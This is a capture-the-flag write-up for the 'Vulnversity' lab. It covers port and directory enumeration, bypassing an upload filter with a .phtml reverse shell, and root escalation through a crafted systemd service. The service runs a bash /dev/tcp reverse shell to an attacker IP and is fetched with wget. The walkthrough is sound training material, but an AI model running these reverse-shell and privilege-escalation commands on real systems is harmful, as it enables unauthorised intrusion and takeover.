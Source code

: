 # Vulnversity

Machine IP: 10.10.209.146

DNS entry: test.thm



**Ports open**

| PORT                                                                                  | STATE | SERVICE     | VERSION                                                      |
| ------------------------------------------------------------------------------------- | ----- | ----------- | ------------------------------------------------------------ |
| 21/tcp                                                                                | open  | FTP         | vsftpd 3.0.3                                                 |
| 22/tcp                                                                                | open  | SSH         | OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
| 139/tcp                                                                               | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                  |
| 445/tcp                                                                               | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                  |
| 3128/tcp                                                                              | open  | http-proxy  | Squid http proxy 3.5.12                                      |
| 3333/tcp                                                                              | open  | http        | Apache httpd 2.4.18 ((Ubuntu))                               |
| Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel |       |             |                                                              |

**Directories enumerated**

| Directory      | Status        | Result                                                  |
| -------------- | ------------- | ------------------------------------------------------- |
| /css           | (Status: 301) | \[Size: 319] \[--> http://10.10.209.146:3333/css/]      |
| /js            | (Status: 301) | \[Size: 318] \[--> http://10.10.209.146:3333/js/]       |
| /images        | (Status: 301) | \[Size: 322] \[--> http://10.10.209.146:3333/images/]   |
| /fonts         | (Status: 301) | \[Size: 321] \[--> http://10.10.209.146:3333/fonts/]    |
| /internal      | (Status: 301) | \[Size: 324] \[--> http://10.10.209.146:3333/internal/] |
| /server-status | (Status: 403) | \[Size: 303]                                            |

From those directories found, the /internal looks to be interesting, its a form that allow to upload a file. I have tested ".php" file but is not possible.

**Trying to insert the .php reverse sheel payload steps:**

1.- I have created a .txt file with common formats.

2.- Executed burpsuite and use the intruder mode.

3.- Highlighted the extension in the request and start the intruder.

<div>

<figure><img src="../.gitbook/assets/burp1.png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../.gitbook/assets/burp2.png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../.gitbook/assets/burp3.png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../.gitbook/assets/burp4.png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../.gitbook/assets/burp5.png" alt=""><figcaption></figcaption></figure>

</div>

Now, I can conclude that ".phtml" format is allowed so lets try to inject the payload

I have port 4444 listening, and it was indicated in the reverse shell script.

Now, lets move to /internal/uploads/ and execute the file

<figure><img src="../.gitbook/assets/burp6.png" alt=""><figcaption></figcaption></figure>

**Privilege escalation**

/etc/passwd = Access allowed

/etc/shadow = Access denied

Performed the following command to locate all the folders owned by root

<figure><img src="../.gitbook/assets/SUID files.png" alt=""><figcaption></figcaption></figure>

/systemctl is a typical folder to run services as a root, lets try to create a service root.service inside that folder, that service will run a reverse shell in bash.

**file content:**

\[UNIT] Description=root

\[Service] Type=simple User=root ExecStart=/bin/bash 'bash -i >& /dev/tcp/10.14.70.188/5555 0>&1'

\[Install] WantedBy=multi-user.target



**In vulnerable machine side:**

Move to /tmp and to a wget to receive the file

Example:



wget http://10.14.70.188/root.service --2024-02-10 10:13:31-- http://10.14.70.188/root.service Connecting to 10.14.70.188:80... connected. HTTP request sent, awaiting response... 200 OK Length: 160 \[application/octet-stream] Saving to: 'root.service'

```
 0K                                                       100% 32.8M=0s
```

now lets try to execute the following commands:

systemctl enable /tmp/root.service

systemctl enable root



Now the listener in port 5555 should be having a root terminal open

└─$ nc -nvlp 5555\
listening on \[any] 5555 ...

connect to \[10.14.70.188] from (UNKNOWN) \[10.10.96.47] 36558 bash: cannot set terminal process group (1928): Inappropriate ioctl for device bash: no job control in this shell root@vulnuniversity:/# root@vulnuniversity:/# root@vulnuniversity:/# root@vulnuniversity:/# root@vulnuniversity:/#



Finally the flag:\
\
root@vulnuniversity:~~#~~ cat root.txt cat root.txt a58ff8579f0a9270368d33a9966c7fd5 root@vulnuniversity:#
